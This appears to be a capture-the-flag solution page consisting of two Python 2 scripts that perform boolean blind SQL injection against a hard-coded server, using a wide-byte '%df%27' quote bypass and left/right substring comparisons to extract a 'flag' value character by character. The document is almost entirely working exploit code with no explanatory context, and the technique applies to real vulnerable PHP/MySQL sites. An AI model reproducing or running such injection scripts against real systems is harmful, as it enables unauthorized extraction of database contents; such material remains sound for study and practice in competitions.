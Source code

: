 ```python
#!usr/bin/env python
#-*- coding:utf-8 -*-
import requests

url = "http://218.2.197.235:23733/index.php?key="
payload = "-1%df%27||left((select(hex(flag))from(flag)),{pos})=0x{c}%23"
req = requests.session()
flag =''
for i in xrange(1,100):
    for h in xrange(0x00,0xff+1):
        endurl = (url+payload).format(pos = i,c =flag+hex(h)[2:])
        #print endurl
        r = req.get(endurl)
        if len(r.text)>1000:
            flag +=hex(h)[2:]
            print flag
            break

print flag.decode('hex').decode('hex')

```

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests
import string
url = 'http://218.2.197.235:23733/index.php?key='
payload ='%df%27||right(left((select(flag)from(flag)),{pos}),1)=binary(0x{c})%23'
req =requests.session()

def get_flag():
    flag = ""
    str = string.printable
    for i in xrange(1,50):
        for char in str:
            endurl = (url+payload).format(pos=i,c=char.encode('hex'))
            r = req.get(endurl)
            #print endurl
            if(char=='}'):
                flag+=char
                print "we get all flag!"
                print flag
                print 'test'
                exit()
            if(len(r.text)>1000):
                flag+=char
                print flag
                break
get_flag()

```

